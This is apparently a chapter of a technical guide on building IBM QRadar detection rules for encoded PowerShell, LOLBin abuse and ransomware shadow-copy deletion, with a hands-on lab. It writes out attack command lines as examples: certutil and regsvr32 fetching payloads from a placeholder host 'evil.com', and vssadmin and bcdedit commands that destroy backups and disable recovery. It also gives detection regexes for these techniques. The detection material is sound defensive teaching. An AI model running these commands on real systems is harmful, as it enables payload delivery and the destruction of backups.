

# 📖 Chapter 55: Production Use Case 3: Suspicious PowerShell, LOLBins & Ransomware Masterclass

> **The IBM QRadar Administrator's Technical Guide** | Phase 5: Custom Rules Engine (CRE) & Offense Architecture  
> **Target Audience:** 1.5-Year Administrators $\rightarrow$ Senior SIEM Engineers & Detection Engineering Specialists  
> **Focus:** Endpoint Telemetry, Sysmon ID 1 / Windows 4688, Encoded PowerShell, LOLBins, Ransomware TTPs, & Hands-on Lab 55

---

## 📸 1. Visual Overview: Threat Correlation — LOLBins & Ransomware Execution


*Figure 55.1: 3D Multi-Stage Threat Correlation in QRadar: Stage 3 showing an adversary invoking Living-off-the-Land Binaries (LOLBins) and Obfuscated PowerShell to delete Volume Shadow Copies and execute lateral staging (`![[23_threat_correlation_usecases_3d.jpg|1000]]`)*

---

## 2. Threat Landscape: Living-off-the-Land Binaries (LOLBins) & Endpoint Execution

Modern adversaries rarely drop compiled custom binaries to disk during initial execution. Instead, they execute **Living-off-the-Land Binaries (LOLBins)** — legitimate, digitally signed operating system utilities already present in `C:\Windows\System32\` — to download payloads, evade antivirus, bypass Application Whitelisting (AppLocker), and execute ransomware:

```
┌────────────────────────────────────────────────────────────────────────┐
│ 🧰 TOP HIGH-RISK ENTERPRISE LOLBINS & ATTACK TECHNIQUES                │
│                                                                        │
│ 1. `certutil.exe` $\rightarrow$ Abused as a file downloader            │
│    • Syntax: `certutil.exe -urlcache -split -f http://evil.com/pay.exe`│
│ ├────────────────────────────────────────────────────────────────────┤
│ 2. `mshta.exe` $\rightarrow$ Executes remote HTA / VBScript / JS       │
│    • Syntax: `mshta.exe vbscript:Close(Execute("GetObject(...)"))`    │
│ ├────────────────────────────────────────────────────────────────────┤
│ 3. `rundll32.exe` & `regsvr32.exe` $\rightarrow$ Proxy DLL Execution   │
│    • Syntax: `regsvr32.exe /s /n /u /i:http://evil.com/scrobj.sct scrobj.dll`│
│ ├────────────────────────────────────────────────────────────────────┤
│ 4. `vssadmin.exe` & `bcdedit.exe` $\rightarrow$ Ransomware Destruction │
│    • Syntax: `vssadmin.exe delete shadows /all /quiet`                 │
│    • Syntax: `bcdedit.exe /set {default} recoveryenabled No`           │
└────────────────────────────────────────────────────────────────────────┘
```

---

## 3. Telemetry Sources: Windows 4688 vs Sysmon Event ID 1 vs PowerShell 4104

To detect LOLBin execution, QRadar relies on endpoint process auditing telemetry:

| Telemetry Channel | Event ID | Essential Extracted Fields | Detection Capability |
| :--- | :---: | :--- | :--- |
| **Windows Security (GPO)** | **`4688`** | `NewProcessName`, `CommandLine`, `ParentProcessName`, `SubjectUserName` | Requires "Include command line in process creation events" GPO enabled. |
| **Microsoft Sysmon** | **`1`** | `Image`, `CommandLine`, `ParentImage`, `ParentCommandLine`, `Hashes` (SHA256), `User` | Gold Standard endpoint telemetry with full SHA256 file hashes. |
| **Microsoft Sysmon** | **`3`** | `Image`, `SourceIp`, `DestinationIp`, `DestinationPort` | Correlates process execution with network connections. |
| **PowerShell Operational** | **`4104`** | `ScriptBlockText`, `Path`, `UserId` | De-obfuscates dynamic script execution at runtime (ScriptBlock Logging). |

---

## 4. Production Rule Architecture 1: Obfuscated / Encoded PowerShell Execution

```
┌────────────────────────────────────────────────────────────────────────┐
│ 📋 RULE SPECIFICATION: ENDPOINT: Suspicious Encoded PowerShell Command │
│                                                                        │
│ 🔍 RULE TEST CONDITIONS:                                               │
│    • Apply "ENDPOINT: Suspicious Encoded PowerShell Command" on events │
│    • and when the event QID is one of (4688, "Sysmon Event ID 1", 4104)│
│    • and when "Process_CommandLine" (Regex) matches any of:            │
│      ( '(?i)-enc(odedcommand)?\s+[A-Za-z0-9+/=]{15,}',                │
│        '(?i)-w(indowstyle)?\s+hidden',                                 │
│        '(?i)-non?i(nteractive)?',                                      │
│        '(?i)iex\s*\(?\s*new-object\s+net\.webclient',                 │
│        '(?i)downloadstring\s*\(' )                                     │
│    • AND NOT when "ParentProcess_Name" matches 'C:\Program Files\SCCM\*'│
│                                                                        │
│ ⚙️ RULE ACTIONS:                                                       │
│    • Ensure detected event is part of an OFFENSE                       │
│    • Index Offense by: Source IP (or Hostname)                         │
│    • Set Severity to: 8, Credibility to: 9, Relevance to: 9            │
│                                                                        │
│ 📢 RULE RESPONSES:                                                     │
│    • Dispatch New Event: "Obfuscated PowerShell Execution Detected"    │
│    • Execute Custom Action: "isolate_endpoint_edr.py"                  │
└────────────────────────────────────────────────────────────────────────┘
```

---

## 5. Production Rule Architecture 2: Ransomware Volume Shadow Copy Destruction

```
┌────────────────────────────────────────────────────────────────────────┐
│ 📋 RULE SPECIFICATION: RANSOMWARE: Shadow Copy & Recovery Deletion     │
│                                                                        │
│ 🔍 RULE TEST CONDITIONS:                                               │
│    • Apply "RANSOMWARE: Shadow Copy & Recovery Deletion" on events     │
│    • and when the event QID is one of (4688, "Sysmon Event ID 1")      │
│    • and when "Process_CommandLine" (Regex) matches any of:            │
│      ( '(?i)vssadmin(\.exe)?\s+delete\s+shadows',                      │
│        '(?i)wmic(\.exe)?\s+shadowcopy\s+delete',                       │
│        '(?i)wbadmin(\.exe)?\s+delete\s+catalog',                       │
│        '(?i)bcdedit(\.exe)?\s+/set.*recoveryenabled\s+no',             │
│        '(?i)bcdedit(\.exe)?\s+/set.*bootstatuspolicy\s+ignoreallfailures' )│
│                                                                        │
│ ⚙️ RULE ACTIONS:                                                       │
│    • Ensure detected event is part of an OFFENSE                       │
│    • Index Offense by: Hostname (or Source IP)                         │
│    • Set Severity to: 10, Credibility to: 10, Relevance to: 10         │
│    • Annotate: "CRITICAL: Active Ransomware Defense Evasion Triggered!" │
│                                                                        │
│ 📢 RULE RESPONSES:                                                     │
│    • Send High-Priority SNMP / PagerDuty Alert                         │
│    • Dispatch New Event: "Active Ransomware Process Execution"         │
└────────────────────────────────────────────────────────────────────────┘
```

---

## 📌 6. Visual Mind Map & Sticky Notes (Chapter 55 Quick-Review)

### 🧠 Hierarchical Mind Map


### 🗂️ Color-Coded Digital Sticky Notes

#### 🟨 Sticky Note 1: Windows 4688 GPO Prerequisite
```text
┌─────────────────────────────────────────────────────────────┐
│ 📌 CONCEPT: GPO COMMAND LINE AUDITING                       │
│                                                             │
│ • By default, Windows 4688 logs ONLY the process name.      │
│ • GPO "Include command line in process creation events" MUST│
│   be enabled to capture arguments like `-enc` or `vssadmin`!│
└─────────────────────────────────────────────────────────────┘
```

#### 🟩 Sticky Note 2: Sysmon File Hashes
```text
┌─────────────────────────────────────────────────────────────┐
│ 📌 GOLDEN RULE: SYSMON OVER 4688                            │
│                                                             │
│ • Prefer Sysmon Event ID 1 over 4688 because Sysmon provides│
│   cryptographic SHA256 hashes for instant Threat Intel match│
└─────────────────────────────────────────────────────────────┘
```

#### 🟪 Sticky Note 3: PowerShell ScriptBlock 4104
```text
┌─────────────────────────────────────────────────────────────┐
│ 📌 ARCHITECTURE: DE-OBFUSCATION LOGGING                     │
│                                                             │
│ • PowerShell ScriptBlock Logging (4104) logs decrypted code│
│   right before execution, defeating base64 obfuscation!     │
└─────────────────────────────────────────────────────────────┘
```

#### 🟦 Sticky Note 4: Immediate Severity 10 for Shadow Deletion
```text
┌─────────────────────────────────────────────────────────────┐
│ 📌 INCIDENT RESPONSE: ZERO TOLERANCE                        │
│                                                             │
│ • Shadow copy deletion (`vssadmin delete shadows`) almost   │
│   never occurs in normal business operations. Assign Sev 10!│
└─────────────────────────────────────────────────────────────┘
```

#### 🟧 Sticky Note 5: Interview Cheat Code (LOLBins Detection)
```text
┌─────────────────────────────────────────────────────────────┐
│ 📌 INTERVIEW CHEAT CODE: "HOW DO YOU DETECT RANSOMWARE?"    │
│                                                             │
│ "In QRadar, I monitor Sysmon Event 1 and Windows 4688 for   │
│ LOLBin command-line invocations like `vssadmin delete       │
│ shadows` and encoded PowerShell strings, triggering a       │
│ Severity 10 offense indexed by Hostname for isolation."     │
└─────────────────────────────────────────────────────────────┘
```

#### 🟥 Sticky Note 6: Critical Pitfall
```text
┌─────────────────────────────────────────────────────────────┐
│ ⚠️ CRITICAL PITFALL: UNPARSED COMMANDLINE PROPERTY          │
│                                                             │
│ • If "Process CommandLine" is not extracted as an optimized │
│   Custom Event Property, CRE falls back to scanning full raw│
│   payloads, crippling `ecs-ep` during process bursts!        │
└─────────────────────────────────────────────────────────────┘
```

---

## ⚡ Rapid-Recall Flashcards

| # | Question (Front) | Answer (Back) |
| :-: | :--- | :--- |
| **01** | What Windows GPO setting must be enabled for Event ID 4688 to capture full execution arguments? | **"Include command line in process creation events"**. |
| **02** | What Sysmon Event ID records detailed process creation with parent process and SHA256 hashes? | **Sysmon Event ID 1**. |
| **03** | What command-line flags indicate encoded, background PowerShell execution? | **`-enc` / `-EncodedCommand`**, **`-WindowStyle Hidden`**, and **`-NonInteractive`**. |
| **04** | What attack technique does `vssadmin delete shadows /all /quiet` represent? | **Ransomware defense evasion / inhibitor** (deleting backup volume shadow copies to prevent recovery). |
| **05** | How does `certutil.exe` get abused as a LOLBin? | By using its `-urlcache -split -f` parameters to download malicious binaries from remote web servers. |
| **06** | What PowerShell Event ID logs de-obfuscated script code right before runtime? | **Event ID 4104 (ScriptBlock Logging)**. |

---

## 🧪 7. Hands-on Practice Lab 55: Auditing Process Execution Telemetry & Hunting LOLBins

### 🎯 Lab Objectives
1. Query Windows 4688 and Sysmon Event ID 1 process creations via AQL.
2. Search for encoded PowerShell commands across endpoint event logs.
3. Emulate a simulated `vssadmin delete shadows` event stream via `logger`.
4. Verify offense creation and severity magnitude in PostgreSQL.

---

### 📋 Step-by-Step Practical Lab Procedures

#### Step 1: Query Top Executed Processes & Command Lines via AQL
```bash
/opt/qradar/bin/arielsql -p 32011 -q "
SELECT 
    DATEFORMAT(starttime, 'HH:mm:ss') AS EventTime, 
    sourceip AS EndpointIP, 
    username AS ExecutingUser, 
    \"Process_Name\" AS Process, 
    \"Process_CommandLine\" AS CommandLine 
FROM events 
WHERE \"Process_CommandLine\" IS NOT NULL 
LAST 24 HOURS 
ORDER BY starttime DESC 
LIMIT 15;
"
```

---

#### Step 2: Search for Encoded PowerShell Execution via AQL
```bash
/opt/qradar/bin/arielsql -p 32011 -q "
SELECT 
    DATEFORMAT(starttime, 'YYYY-MM-dd HH:mm:ss') AS Time, 
    sourceip, 
    username, 
    \"Process_CommandLine\" 
FROM events 
WHERE \"Process_CommandLine\" ILIKE '%-enc%' OR \"Process_CommandLine\" ILIKE '%-EncodedCommand%' 
LAST 7 DAYS;
"
```

---

#### Step 3: Emulate a Ransomware Shadow Copy Deletion Event
```bash
logger -n 127.0.0.1 -P 514 -d -t Microsoft-Windows-Security-Auditing \
'<134>1 2026-09-25T19:15:00.000Z srv-finance-01.corp.local Microsoft-Windows-Security-Auditing 4688 - - [Keywords="0x8020000000000000"] A new process has been created. Creator Subject: Security ID: S-1-5-21-500 Account Name: local_admin Process Information: New Process ID: 0x14f0 New Process Name: C:\Windows\System32\vssadmin.exe Process Command Line: vssadmin.exe delete shadows /all /quiet Mandatory Label: High'
```

---

#### Step 4: Verify Generated High-Severity Offense in PostgreSQL
```bash
psql -U qradar -d qradar -x -c "
SELECT 
    id AS OffenseID, 
    description, 
    offensesource, 
    magnitude, 
    severity, 
    credibility, 
    relevance 
FROM offense 
WHERE description ILIKE '%vssadmin%' OR description ILIKE '%Shadow%' 
ORDER BY id DESC 
LIMIT 1;
"
```
